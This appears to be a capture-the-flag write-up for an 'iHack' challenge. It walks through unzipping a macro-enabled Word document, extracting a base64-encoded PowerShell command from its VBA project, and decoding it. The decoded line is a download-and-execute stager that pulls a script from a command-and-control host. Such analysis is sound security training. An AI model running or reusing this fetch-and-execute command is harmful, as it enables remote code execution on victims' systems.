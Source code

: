 # DOCM

> **Challenge Description:** Something is suspicious with this resign letter document. Can you investigate what is the 'suspicious' thing. Identify the full malicious URL.
>
> **Flag Format:** `ihack{URL}`

### Solution

Unpack the maldoc by unzipping the file. The content of macro extracted is saved in a separate file `vbaProject.bin`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/DOCM]
└─$ unzip letter.docm                            
Archive:  letter.docm
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: word/document.xml       
  inflating: word/_rels/document.xml.rels  
  inflating: word/vbaProject.bin     
  inflating: word/theme/theme1.xml   
  inflating: word/_rels/vbaProject.bin.rels  
  inflating: word/vbaData.xml        
  inflating: word/settings.xml       
  inflating: word/styles.xml         
  inflating: word/webSettings.xml    
  inflating: word/fontTable.xml      
  inflating: docProps/core.xml       
  inflating: docProps/app.xml    
```

Carving for strings on the `vbaProject.bin` file will reveal a base-64 encoded PowerShell command.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/DOCM/word]
└─$ strings vbaProject.bin | grep "powershell"
powershell.exe -enc cABvAHcAZQByAHMAaABlAGwAbAAgAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvAGMAbgBjAC4AaQBoAGEAYwBrAC4AYwBvAG0ALwBzAHQAYQBnAGUAcgAuAHAAcwAxACcAKQA='
```

Decode the base64 payload to reveal the flag.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/DOCM/word]
└─$ echo "cABvAHcAZQByAHMAaABlAGwAbAAgAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvAGMAbgBjAC4AaQBoAGEAYwBrAC4AYwBvAG0ALwBzAHQAYQBnAGUAcgAuAHAAcwAxACcAKQA=" | base64 -d
powershell IEX (New-Object Net.WebClient).DownloadString('http://cnc.ihack.com/stager.ps1')
```

**Flag:** `ihack{http://cnc.ihack.com/stager.ps1}`
